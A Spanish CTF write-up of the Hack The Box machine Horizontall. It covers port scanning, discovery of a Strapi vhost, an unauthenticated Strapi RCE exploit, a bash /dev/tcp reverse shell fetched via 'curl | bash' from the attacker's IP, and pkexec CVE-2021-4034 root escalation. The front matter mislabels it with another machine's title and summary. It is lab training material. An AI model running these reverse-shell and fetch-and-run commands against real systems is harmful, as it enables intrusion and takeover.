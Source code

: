 ```yaml
---
layout: single
title: ScriptKiddie - Hack The Box
excerpt: "ScriptKiddie is an easy difficulty Linux machine that presents a Metasploit vulnerability ([CVE-2020-7384](https://cve.mitre.org/cgi-bin/cvename.cgi?name=2020-7384)), along with classic attacks such as OS command injection and an insecure passwordless `sudo` configuration. Initial foothold on the machine is gained by uploading a malicious `.apk` file from a web interface that calls a vulnerable version of `msfvenom` to generate downloadable payloads. Once shell is obtained, lateral movement to a second user is performed by injecting commands into a log file which provides unsanitized input to a Bash script that is triggered on file modification. This user is allowed to run `msfconsole` as `root` via `sudo` without supplying a password, resulting in the escalation of privileges. " 
date: 2024-04-20
classes: wide
header:
  teaser: /assets/images/htb-horizontall/Horizontall.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
tags:
  - Pkexec
  - Strapi
  - Directorios
---
```


![](/assets/images/htb-horizontall/Horizontall.png)

Horizontall is an easy difficulty Linux machine were only HTTP and SSH services are exposed. Enumeration of the website reveals that it is built using the Vue JS framework. Reviewing the source code of the Javascript file, a new virtual host is discovered. This host contains the `Strapi Headless CMS` which is vulnerable to two CVEs allowing potential attackers to gain remote code execution on the system as the `strapi` user. Then, after enumerating services listening only on localhost on the remote machine, a Laravel instance is discovered. In order to access the port that Laravel is listening on, SSH tunnelling is used. The Laravel framework installed is outdated and running on debug mode. Another CVE can be exploited to gain remote code execution through Laravel as `root`. 

## Portscan

```
Ricart0@kali:/home/kali/HTB/Horizontall/nmap -> sudo nmap -p- --open -sS --min-rate 5000 -vvv -n 10.10.11.105 -oG allports
[sudo] contraseña para kali: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-21 23:30 CET
Initiating Ping Scan at 23:30
Scanning 10.10.11.105 [4 ports]
Completed Ping Scan at 23:30, 0.06s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 23:30
Scanning 10.10.11.105 [65535 ports]
Discovered open port 80/tcp on 10.10.11.105
Discovered open port 22/tcp on 10.10.11.105
Completed SYN Stealth Scan at 23:30, 12.20s elapsed (65535 total ports)
Nmap scan report for 10.10.11.105
Host is up, received echo-reply ttl 63 (0.071s latency).
Scanned at 2024-02-21 23:30:41 CET for 12s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 12.47 seconds
           Raw packets sent: 65841 (2.897MB) | Rcvd: 65841 (2.634MB)

```
Y con esto analizamos los puertos abiertos:
```
Ricart0@kali:/home/kali/HTB/Horizontall/nmap -> nmap -sCV -p22,80 10.10.11.105 -oN targeted
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-21 23:34 CET
Nmap scan report for 10.10.11.105
Host is up (0.053s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ee:77:41:43:d4:82:bd:3e:6e:6e:50:cd:ff:6b:0d:d5 (RSA)
|   256 3a:d5:89:d5:da:95:59:d9:df:01:68:37:ca:d5:10:b0 (ECDSA)
|_  256 4a:00:04:b4:9d:29:e7:af:37:16:1b:4f:80:2d:98:94 (ED25519)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-title: Did not follow redirect to http://horizontall.htb
|_http-server-header: nginx/1.14.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.43 seconds
```
## Directorios existentes

Obtenemos del escaneo de puertos la url de http://horizontall.htb, asi que vamos a adentrarnos a ver que tiene, y vemos que no hay nada que explotar, por tanto, vamos a buscar directorios existentes de la página web a ver si podemos encontrar algo: 
```
Dirsearch started Wed Feb 21 23:52:50 2024 as: /usr/lib/python3/dist-packages/dirsearch/dirsearch.py -u http://horizontall.htb/

301   194B   http://horizontall.htb/js    -> REDIRECTS TO: http://horizontall.htb/js/
301   194B   http://horizontall.htb/css    -> REDIRECTS TO: http://horizontall.htb/css/
200     4KB  http://horizontall.htb/favicon.ico
301   194B   http://horizontall.htb/img    -> REDIRECTS TO: http://horizontall.htb/img/
403   580B   http://horizontall.htb/js/
```
Comprobamos su contenido y no deja entrar en ningun directorio.
Asi que lanzamos un curl a la url de tipo get para analizar el contenido de la pagina y posibles urls en el código, lo filtramos para que nos muestre lo que hay entre comillas '".*?"' y que contienen app, tambien que no se repita ningun resultado:
```
Ricart0@kali:/home/kali/HTB/Horizontall -> curl -s -X GET "http://horizontall.htb/" | grep -oP '".*?"' | grep app\. | sort -u
"app"
"/css/app.0f40a091.css"
"/js/app.c68eb462.js"
```
Ahora si, en el contenido de "/js/app.c68eb462.js", encontramos contenido, asi que volvermos a filtrar por comillas,  en busca de una url, y filtramos por http para encontrar url's.

```
curl -s -X GET "http://horizontall.htb/js/app.c68eb462.js" | grep -oP '".*?"' | grep http | sort -u                                                                 130 ⨯
"http://api-prod.horizontall.htb/reviews"
"https://horizontall.htb"
"http://www.w3.org/2000/svg"
```

## Página web

Encontramos esta url que parece tener contenido "http://api-prod.horizontall.htb/reviews", asi que la añadimos a /etc/hosts y buscamos en el navegador.

Una vez sabido esto, podemos volver a hacer una búsqueda de directorios como antes, en la nueva pagina web. Esto nos devuelve que existe un directorio /admin, que si ejecutamos en el navegador nos lleva a un panel de autenticación:

![](/assets/images/htb-horizontall/pagina1.png)

Como vemos es un strapi, asi que vamos a buscar posibles sploits para ejecutar:
```
Ricart0@kali:/home/kali/HTB/Horizontall -> searchsploit strapi                                                    
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                                     |  Path
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Strapi 3.0.0-beta - Set Password (Unauthenticated)                                                                                                                                 | multiple/webapps/50237.py
Strapi 3.0.0-beta.17.7 - Remote Code Execution (RCE) (Authenticated)                                                                                                               | multiple/webapps/50238.py
Strapi CMS 3.0.0-beta.17.4 - Remote Code Execution (RCE) (Unauthenticated)                                                                                                         | multiple/webapps/50239.py
Strapi CMS 3.0.0-beta.17.4 - Set Password (Unauthenticated) (Metasploit)                                                                                                           | nodejs/webapps/50716.rb
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

## Intrusión
Tenemos un sploit para la ocasion en la que no estamos autenticados, lo vamos a usar:
![](/assets/images/htb-horizontall/int1.png)

Ya tendriamos ejecucion de comandos, asi que vamos a intentar montarnos una reverse shell mandando un curl a nuestra ip, montandonos un servidor en python3 y escuchando por el puerto 443. Creamos un index.html que devuelva una bash:
```
Ricart0@kali:/home/kali/HTB/Horizontall/exploits -> cat index.html         
#!/bin/bash

bash -i >& /dev/tcp/10.10.16.6/443 0>&1 
```
Y ahora mandamos un curl y que lo interprete con bash: curl http://10.10.16.6/ | bash
Y nos montamos el servidor en python(python3 -m http.server 80) y escucha por el puerto 443(nc -nvlp 443). Y estamos dentro:
![](/assets/images/htb-horizontall/int2.png)

## Escalada de privilegios

En el directorio home encontramos la flag del usuario:
```
strapi@horizontall:/home/developer$ cat user.txt
cat user.txt
a3eb4b24b2c7c90ec8bfcde966163c55
```
Ahora toca escalar privilegios para obtener la flag de root. Vemos que pkexec se ecuentra disponible, muy vulnerable:
```
strapi@horizontall:~/myapi/config/environments/development$ which pkexec
which pkexec
/usr/bin/pkexec
```
Desde nuestra terminal, vamos a clonarnos este repositorio https://github.com/berdav/CVE-2021-4034 que nos va a escalar el privilegio mediante pkexec, la comprimimos (zip -r comprimido.zip CVE-2021-4034). Desde el equipo de la víctima, obtenemos el zip de nuestro equipo(wget http://10.10.16.6/comprimido.zip). Lo descomprimimos, hacemos make, y lo ejecutamos:
```
strapi@horizontall:~/myapi/config/environments/development/CVE-2021-4034$ ./cve-2021-4034
<ronments/development/CVE-2021-4034$ ./cve-2021-4034                      
whoami
root
```
A partir de ahi, buscamos la flag de root y ya lo tenemos. 
